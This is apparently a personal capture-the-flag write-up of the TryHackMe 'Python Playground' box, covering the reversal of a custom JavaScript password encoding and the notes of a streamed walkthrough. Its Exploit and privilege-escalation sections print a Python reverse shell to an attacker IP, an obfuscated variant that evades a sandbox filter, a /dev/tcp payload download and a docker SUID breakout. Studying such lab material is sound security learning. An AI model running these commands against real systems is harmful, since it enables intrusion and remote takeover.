

# Python-Playground Helped-Through

Name: Python-Playground
Date: 6/5/2023 
Difficulty:  Hard
Goals:  
- Pythonic Expertise
- Requests library brain scarring needs to occur 
Learnt:
Beyond Root:
- Finish [[Racetrack-Bank-Helped-Through]] python script and another for this box

Need to some THM, but I also need to figure out a best in slot FTP server for CTFs (build and tear down) and one that is a most secure for just in case and for one of the Beyond Root challenges for [[Kotarak-Helped-Through]]. I decided that I have not done a Alh4zr3d stream in a week so I also need to improve my Python so I chose [Cthulhu Cthursday: TryHackMe's "GameBuzz" and "Python Playground"](https://www.youtube.com/watch?v=AqNKLu_y6H8). I also need to do some execise in the intervals. This Helped-Through is paired with [[GameBuzz-Helped-Through]]. 

Apparently these are malders. I here to learn to boulder the malders one day.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


Nmap found:


```js
function string_to_int_array(str) {
    const intArr = [];
    for (let i = 0; i < str.length; i++) {
        const charcode = str.charCodeAt(i);
        // This is not reversible as result of modulus and division 
        const partA = Math.floor(charcode / 26);
        const partB = charcode % 26;
        intArr.push(partA);
        intArr.push(partB);
    }
    return intArr;
}

function int_array_to_text(int_array) {
    let txt = '';
    for (let i = 0; i < int_array.length; i++) {
        txt += String.fromCharCode(97 + int_array[i]);
    }
    return txt;
}

```

Reversing attempt:
```js
hash = 'dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu'
tmp = int_array_to_text(hash)
tmp = string_to_int_array(tmp)
tmp = int_array_to_text(tmp)
const hash = int_array_to_text(string_to_int_array(int_array_to_text(string_to_int_array(chosenPass))))
const tmp = string_to_int_array(int_array_to_text(string_to_int_array(int_array_to_text(hash))))
```

Python things learnt
```python
# Python chr() function takes integer argument and return the string representing a character at that code point. 
chr()
# The _ord()_ function returns an integer representing the Unicode character.
ord()
```

Walking through the reversing of the functions Alh4zr3d really shines. The only mistake was just multiplication of a variable when the control was a for loop.
```python
#!/usr/share/python3

def int_array_to_string(int_array):
    result = ""
    i = 0
    while i < len(int_array):
        char_code = int_array[i] * 26
        i += 1
        char = chr(char_code + int_array[i])
        result += char
        i += 1

    return result


def string_to_int_array(string):
    result = []
    for i in string:
        result.append(ord(i) - 97)
    return result


def main():
    hash = "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"
    print(int_array_to_string(string_to_int_array(int_array_to_string(string_to_int_array(hash)))))
    exit()

if __name__ == '__main__':
    main()
```
``

## Exploit

Super secret python playground.


We will probably need to evade filting of a reverse shell
```python
import 
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.43.145",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```
Needs to be changes - Sandboxes are not filters but function the same [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes) - tried various keywords and builtins, but to no success


Learning that simple obfuscation - Al pointed the way
```python
# Reverse the strings and return back to intended form with [::-1]
# base64 encoding
"so tropmi"[::-1]

socket = __import__("socket", globals=None, locals=None, fromlist=(), level=0)
os = __import__("os", globals=None, locals=None, fromlist=(), level=0)
pty = __import__("pty", globals=None, locals=None, fromlist=(), level=0)
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.43.145",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```


## Docker Bre..ssh Connor Site remember... but PrivEsc

Docker enumeration
```bash
mount # Key 
```


Transfer Deepce.sh
```bash
# Use nc to serve the file
nc -lvnp 80 < deepce.sh
# Target machine
bash -c "cat < /dev/tcp/10.14.43.145/80 > /tmp/deepce.sh"
```

Annoyingly we could just ssh in a connor as we know it connors site...


```bash
mount # check if it is mounted into the host filesystem 
# If so and you are root in dockerenv
cp /bin/sh $mount_misconfiguration_dir
# Give the binary suid privileges
chmod u+s /bin/sh  
# And PrivEsc on the host after breakout.
```
  


## Beyond Root

      
